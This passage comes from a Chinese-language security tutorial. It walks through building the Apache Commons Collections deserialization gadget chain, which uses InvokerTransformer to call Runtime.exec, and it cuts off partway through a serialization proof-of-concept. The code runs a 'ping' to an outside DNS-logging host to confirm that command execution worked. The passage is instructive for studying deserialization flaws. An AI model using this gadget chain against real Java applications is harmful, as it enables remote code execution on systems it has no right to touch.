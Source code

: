 可以成功触发 DNS 请求，如下图-->

![alt text](image-48.png)

Tips：小插曲，可能会觉得 transformers 里面放三个 InvokerTransformer 有点奇怪，为什么不直接去获取 getRuntime 方法？根本原因还是在 InvokerTransformer 的 transform 方法中`Class cls = input.getClass();`这里。

![alt text](image-69.png)

若改成直接去获取 getRuntime 方法的写法，也就是下面这样-->

```java
Class<?> clazz = Class.forName("java.lang.Runtime");
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getRuntime",
                        new Class[]{null},
                        new Object[]{null}
                )
                ,
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
```

下断点调试会发现此时的 cls 是等于`java.lang.Class`的，在对 Class 类去找 getRuntime 方法绝对是找不到的，所以要分开两步走，先通过 getMethod 去找到 getRuntime，再调用 invoke 方法去调用 getRuntime 方法，拿到实例。

![alt text](image-70.png)

目前，加上序列化和反序列化的代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
```